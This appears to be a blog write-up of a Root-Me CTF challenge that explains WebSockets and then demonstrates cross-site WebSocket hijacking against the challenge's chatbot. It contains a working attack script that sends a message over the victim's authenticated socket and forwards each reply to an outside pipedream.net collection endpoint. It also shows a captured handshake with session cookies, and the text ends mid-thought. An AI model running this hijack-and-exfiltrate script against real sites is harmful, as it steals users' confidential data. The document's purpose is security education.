

# Introduction

Today I'm going to talk about web sockets, you may have found `wss://` or `ws://` somewhere and wonder what's that, well I'll try to explain the best I can :)

## What are web Sockets?
WebSockets are widely used in modern web applications. They are initiated over HTTP and provide long-lived connections with asynchronous communication in both directions.
WebSockets are used for all kinds of purposes, including performing user actions and transmitting sensitive information. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications. 

## What is the difference between HTTP and WebSockets?

Most communication between web browsers and web sites uses HTTP. With HTTP, the client sends a request and the server returns a response. Typically, the response occurs immediately, and the transaction is complete. Even if the network connection stays open, this will be used for a separate transaction of a request and a response. 

WebSocket connections are initiated over HTTP and are typically long-lived. Messages can be sent in either direction at any time and are not transactional in nature. The connection will normally stay open and idle until either the client or the server is ready to send a message.

WebSockets are particularly useful in situations where low-latency or server-initiated messages are required, such as real-time feeds of financial data. 

## How are WebSocket connections established?

WebSocket connections are normally created using client-side JavaScript like the following:
var ws = new WebSocket("wss://target-website.com/room");

## Check connection status
If you head to the  there is a rich page with really useful information about the websocket connection state. This way we can ensure wether we're connected (or not!):

| Value |    State   |                        Description                       |
|:-----:|:----------:|:--------------------------------------------------------:|
| 0     | CONNECTING | Socket has been created. The connection is not yet open. |
| 1     | OPEN       | The connection is open and ready to communicate.         |
| 2     | CLOSING    | The connection is in the process of closing.             |
| 3     | CLOSED     | The connection is closed or couldn't be opened.          |

This is the information that we need!

## Check for javascript files.
We can crawl through the website and see some javascript page:
[...]
```js
 var connection = new WebSocket('ws://'+window.location.hostname+'/ws');  
    connection.onopen = function () {};  
    connection.onerror = function (error) {
      alert("An error occured, you will reload the page for you to access a new room !")
      location.reload()
    };
    connection.onmessage = function (message) {
      $("#chatbox").append("You: "+$("#input").val().replace('<','').replace('>','')+"\n")
      $("#chatbox").append("\nBot: "+message["data"].replace('<','').replace('>','')+"\n-------------------------------------------------------------\n")
      $('#chatbox').scrollTop($('#chatbox')[0].scrollHeight);
      $("#input").val("")
    };
```
[...]
## Begin the connection.

```javascript
var ws = new WebSocket('ws://'+window.location.hostname+'/ws');
ws.readyState // this should return 1 ^^

// CSRF
ws.onmessage = function (message) {
      $("#chatbox").append("You: "+$("#input").val() + "\n")
      $("#chatbox").append("\nBot: "+message["data"] + "\n-------------------------------------------------------------\n")
      $('#chatbox').scrollTop($('#chatbox')[0].scrollHeight);
      $("#input").val("")
    };
```
<script>
websocket = new WebSocket('ws://ctf02.root-me.org/ws')
websocket.readyState;
websocket.onopen = start
websocket.onmessage = handleReply
function start(event) {
  websocket.send("READY"); //Send the message to retreive confidential information
}
function handleReply(event) {
  //Exfiltrate the confidential information to attackers server
  fetch('https://eoj1ovww5kfcgvi.m.pipedream.net/?'+event.data, {mode: 'no-cors'})
}
</script>

# Let's get this party started

First, let's analyze if there's any CSRF TOKEN, if the connection is secured only by the cookie, we can hijack the user the html files for example, from another domain.
Let's open burp and initiate a WS connection, what do we see?

```html
GET /ws HTTP/1.1
Sec-WebSocket-Version: 13
Origin: http://ctf10.blabla
Sec-WebSocket-Key: iTI6sd0uJHFmgn5gu8kHLA==
Connection: keep-alive, Upgrade
Cookie: _ga_SRYSKX09J7=GS1.1.1659040468.3.1.1659042535.0; _ga=GA1.1.239451001.1658089567; connect.sid=s%3AdFQWhWUSdk2LvNXIraAJOcP3Gdr5Zw5z.1aRYfGUzzd6cOK5KeH6zNeTdzwOcvbFYngmjfzMecyY
Upgrade: websocket
```

Response:
```
HTTP/1.1 101 Switching Protocols
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Accept: mi0J6oYY40on/uTajuMWA/m+Ckc=
```

See, 3 cookies are set and there's nothing regarding CSRF tokens, looks nice.... but what about if we delete the cookies and reconnect again, will we be able to interact with the server?

sending ws message:
> Unable to verify your identity, please log in before chatting with me.

We got something!!! Now that we don't have any cookie, the connection is being made but requests are being rejected by WSS: We need some cookies!
Cookies can be gathered from a victim's pov

ws://ctf04.root-me.org/ws